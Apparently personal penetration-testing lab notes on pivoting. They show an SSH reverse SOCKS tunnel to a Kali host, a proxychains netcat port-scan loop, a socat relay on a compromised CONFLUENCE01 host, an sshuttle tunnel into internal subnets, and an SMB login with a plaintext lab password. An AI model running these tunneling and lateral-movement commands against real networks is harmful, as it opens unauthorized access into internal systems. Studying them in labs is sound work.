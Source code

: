 ```
ssh -N -R 9998 kali@192.168.45.158 -p2222
```


### verify

![[Pasted image 20240515003810.png]]
### SOCKS

![[Pasted image 20240515003712.png]]

### Find port

```
for port in {9000..9100}; do proxychains nc -zv -w1 10.4.209.64 $port 2>&1 | grep OK; done
```

> [!NOTE]
> Run commands with proxychains


# SSHUTTLE

it requires root privileges on the SSH client and Python3 on the SSH server

In our lab environment, we have SSH access to PGDATABASE01, which we can access through a port forward set up on CONFLUENCE01

### port forward 
on CONFLUENCE01, listening on port 2222 on the WAN interface and forwarding to port 22 on PGDATABASE01

```
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```


### set sshuttle

```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

![[Pasted image 20240515004341.png]]

#### testing

```
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

![[Pasted image 20240515004414.png]]

